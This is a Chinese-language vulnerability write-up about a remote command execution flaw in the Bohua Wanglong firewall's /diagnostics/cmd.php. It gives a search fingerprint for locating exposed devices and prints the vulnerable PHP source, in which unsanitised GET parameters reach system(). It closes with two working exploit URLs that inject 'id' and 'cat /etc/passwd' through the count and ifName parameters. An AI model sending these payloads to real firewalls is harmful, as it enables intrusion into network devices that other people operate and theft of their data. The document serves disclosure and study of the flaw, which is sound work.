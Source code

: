 # 博华网龙防火墙 cmd.php 远程命令执行漏洞

## 漏洞描述

博华网龙防火墙 cmd.php 过滤不足，导致命令拼接执行远程命令

## 漏洞影响

```
博华网龙防火墙
```

## 网络测绘

```
"博华网龙防火墙"
```

## 漏洞复现

登录页面

![img](images/202202162249275.png)

存在漏洞的文件为 **/diagnostics/cmd.php**

```php
<?php
    include_once("pub/pub.inc");
    include_once("pub/session.inc");
    
    $username = $_SESSION["USER_NAME"];
    checkApproachUrl(); 
    
  if($_GET['action'] == "ping")
  {
        $host = $_GET['host'];
        $count = $_GET['count'];
        system("/bin/ping -c $count " . escapeshellarg($host)." >temp.htm");
        
         if($username)
            pSyslog("ping $host $count次", 0);           
  }
  else if($_GET['action'] == "traceroute")
  {
        $host = $_GET['host'];
        $ttl =  $_GET['ttl'];
        $useicmp = $_GET['useicmp'];
        
        if($useicmp)
            $useicmp = "-I";
        else
            $useicmp = "";        
        system("/usr/bin/traceroute -d $useicmp -w 2 -m " . escapeshellarg($ttl) . " " . escapeshellarg($host)." >temp.htm");    
        if($username)
            pSyslog("traceroute $host 跳数为$ttl", 0);     
  }
  else if($_GET['action'] == "arping")
  {
    $host = $_GET['host'];
    $count = $_GET['count'];
    $if = $_GET['ifName'];
    $src = $_GET['src'];
    system("/usr/bin/arping -I $if -c $count -s $src $host >temp.htm");
    
     if($username)
        pSyslog("arping $host $count次", 0);
  }
  else
  {
    system("echo \"\" >temp.htm");
  } 
?>
```

可以发现其中存在多个命令执行点，均可进行命令拼接执行恶意命令

构造命令执行

```php
/diagnostics/cmd.php?action=ping&count=||id||
/diagnostics/cmd.php?action=arping&ifName=|cat /etc/passwd||
```

![img](images/202202162249153.png)